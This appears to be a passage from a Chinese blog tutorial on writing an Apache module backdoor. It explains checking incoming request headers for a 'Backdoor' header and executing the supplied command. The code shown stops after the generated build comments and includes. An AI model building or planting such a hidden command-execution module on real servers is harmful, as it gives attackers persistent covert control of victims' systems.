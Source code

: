 我们只需要遍历请求头就可以得知是否需要触发这个后门。

每一个请求头是一个 apr_table_t 结构体的指针。

我们再来查询一下这个结构体的实现：

   > https://apr.apache.org/docs/apr/2.0/group__apr__tables.html#gad7ea82d6608a4a633fc3775694ab71e4  
   > https://apr.apache.org/docs/apr/1.6/apr__tables_8h_source.html

![img/2017-11-29/2355077-e774ccf4b1b19841.png](http://upload-images.jianshu.io/upload_images/2355077-e774ccf4b1b19841.png)

官方文档中也给出了遍历请求头的实例代码。

![img/2017-11-29/2355077-9db28525fd861584.png](http://upload-images.jianshu.io/upload_images/2355077-9db28525fd861584.png)

我们只需要检测这个 Backdoor 有没有出现在请求头中。

如果出现则执行命令并输出即可。

## 3. 实现代码如下 :
```
/*
**  mod_backdoor.c -- Apache sample backdoor module
**  [Autogenerated via ``apxs -n backdoor -g'']
**
**  To play with this sample module first compile it into a
**  DSO file and install it into Apache's modules directory
**  by running:
**
**    $ apxs -c -i mod_backdoor.c
**
**  Then activate it in Apache's apache2.conf file for instance
**  for the URL /backdoor in as follows:
**
**    #   apache2.conf
**    LoadModule backdoor_module modules/mod_backdoor.so
**    <Location /backdoor>
**    SetHandler backdoor
**    </Location>
**
**  Then after restarting Apache via
**
**    $ apachectl restart
**
**  you immediately can request the URL /backdoor and watch for the
**  output of this module. This can be achieved for instance via:
**
**    $ lynx -mime_header http://localhost/backdoor
**
**  The output should be similar to the following one:
**
**    HTTP/1.1 200 OK
**    Date: Tue, 31 Mar 1998 14:42:22 GMT
**    Server: Apache/1.3.4 (Unix)
**    Connection: close
**    Content-Type: text/html
**
**    The sample page from mod_backdoor.c
*/

#include "httpd.h"
#include "http_config.h"
#include "http_protocol.h"
#include "ap_config.h"
#include <stdio.h>
```